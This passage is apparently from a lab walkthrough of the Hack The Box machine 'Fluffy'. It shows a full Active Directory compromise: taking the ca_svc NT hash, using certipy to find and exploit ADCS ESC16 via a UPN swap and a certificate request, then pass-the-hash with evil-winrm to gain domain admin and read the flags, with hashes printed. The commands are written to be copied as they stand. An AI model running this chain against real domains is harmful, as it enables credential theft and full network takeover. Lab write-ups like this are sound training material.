[*] Trying to get TGT...
[+] Sending AS-REQ to KDC fluffy.htb (10.129.232.88)
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[+] Attempting to write data to 'ca_svc.ccache'
[+] Data written to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```
So there is a cleanup script running so after adding the user to the group and checking i had disappeared so i had to re-add myself then quickly run this command

```python
nxc ldap dc01.fluffy.htb -u ca_svc -H ca0f4f9e9eb8a092addf53bb03fc98c8                                   
LDAP        10.129.232.88   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:None) (channel binding:Never)
LDAP        10.129.232.88   389    DC01             [+] fluffy.htb\ca_svc:ca0f4f9e9eb8a092addf53bb03fc98c8 
```
This user has been compromised


## ADCS
```python
certipy-ad find -u ca_svc@fluffy.htb -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.232.88 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```
From this output its clear to see that its vulnerable to ESC16

### ESC16
```python
certipy-ad account -u 'ca_svc@fluffy.htb' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.129.232.88' -upn 'administrator' -user 'ca_svc' update
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```
This updated the UPN of the `ca_svc` user

```python
faketime -f +7h certipy-ad req -u 'ca_svc@fluffy.htb' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.129.232.88' -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
Here i request the certificate

```python
faketime -f +7h certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.88 -u 'administrator' -domain 'fluffy.htb'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```
Now i can dump the hash 

```python
evil-winrm -i dc01.fluffy.htb -u administrator -H '8da83a3fa618b6e3a00e93f676c92a6e'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../../winrm_svc
*Evil-WinRM* PS C:\Users\winrm_svc> cd Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
||6006219da809e79d9e1db178ef7d97f5||
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cd ../../Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||b610a7624879cbf3b7d473f6a6ea7a6e||
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Domain admin!
